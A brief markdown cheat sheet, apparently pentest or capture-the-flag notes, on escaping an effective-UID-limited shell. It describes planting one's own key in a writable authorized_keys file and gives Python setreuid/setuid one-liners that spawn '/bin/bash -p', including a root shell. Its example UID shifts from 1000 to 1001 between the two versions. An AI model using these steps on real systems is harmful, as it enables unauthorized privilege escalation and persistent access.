 # Techniques to Escape EUID Limited Shell to UID Shell

## For normal euid

1) using public key authentication technique to escape

&nbsp;&nbsp;&nbsp;&nbsp-check the .ssh if we have write permission on authorized_keys

&nbsp;&nbsp;&nbsp;&nbsp-write our own public key into the authorized_keys file

&nbsp;&nbsp;&nbsp;&nbsp-ssh into the user with our own private key

&nbsp;&nbsp;&nbsp;&nbsp//notes: the public-private key pair can be generated using ssh-keygen

2) using python to setreuid to escape

&nbsp;&nbsp;&nbsp;&nbspcurrent setup:

&nbsp;&nbsp;&nbsp;&nbsp&nbsp;&nbsp;&nbsp;&nbspeuid user: 1000(Eve)

&nbsp;&nbsp;&nbsp;&nbsp&nbsp;&nbsp;&nbsp;&nbspuid user: 33 (www-data)

&nbsp;&nbsp;&nbsp;&nbsp&nbsp;&nbsp;&nbsp;&nbsprough idea how it works executing step by step:
```
$python
>>import os
>>os.setreuid(1000,1000)	#setreuid(ruid,euid)
>>os.system("/bin/bash -p")
```
one line command:
```
$python -c 'import os;os.setreuid(1001,1001);os.system("/bin/bash -p")'
```
## For root euid

1) can use the normal euid user public key authentication technique
2) use python to setuid & escape EUID limited shell

rough idea how it works executing step by step:


```
#python
>>import os
>>os.setuid(0)
>>os.system("/bin/bash -p")
```
one line command:
```
#python -c 'import os;os.setuid(0);os.system("/bin/bash -p")'
```
